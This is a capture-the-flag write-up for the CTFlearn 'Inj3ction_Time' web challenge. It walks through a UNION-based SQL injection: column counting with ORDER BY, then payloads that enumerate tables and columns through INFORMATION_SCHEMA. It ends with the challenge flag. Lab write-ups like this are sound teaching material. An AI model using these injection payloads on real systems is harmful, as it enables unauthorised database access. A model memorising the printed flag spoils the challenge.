

# Web(Hard)

## Inj3ction_Time

* Website: https://ctflearn.com/challenge/149

* Solution: **Observation**, **```INFORMATION_SCHEMA```**, **```UNION```** 

    * First Step: **Observation**

        1. We input ```1```, ```2```, ```3``` and ```4``` and found that typing ```1```, ```2```, and ```3``` has output results

            
        
        2. We then find how many columns are there(for ```UNION```, just as the hint said), by using ```order by <column id>``` to detect. We then found out that there are 4 columns in the table

            

        3. Also, we have to find the relationship between the result and the database. We could find that the ```<output result, column>``` is: <1(First column), Breed>, <2(Second column), Name>, and <3(Third column), Color>

            

    * Second Step: ```UNION```

        * We use ```UNION``` to find the **information of the database**

            * When using ```UNION```, the number of columns of the two tables must be the same

            * Basically, we use the following SQL code to get the information of the database

                ```
                SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
                SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
                SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
                ```
        
        * We could in order find the **table names** first and then the **column names** we want to get, but we could also make it in one step

            * First method : ```1 UNION select table_name, 100, 200, 799 from information_schema.tables``` & ```1 UNION select 100, column_name, 200, 799 from information_schema.columns```

                

                

            * Second method: ```1 UNION SELECT TABLE_NAME, COLUMN_NAME, 34, 1 FROM INFORMATION_SCHEMA.COLUMNS```

                

    * Final Step: Since we get the table and column name, we could then get the flag!

        

* Flag: ```abctf{uni0n_1s_4_gr34t_c0mm4nd}```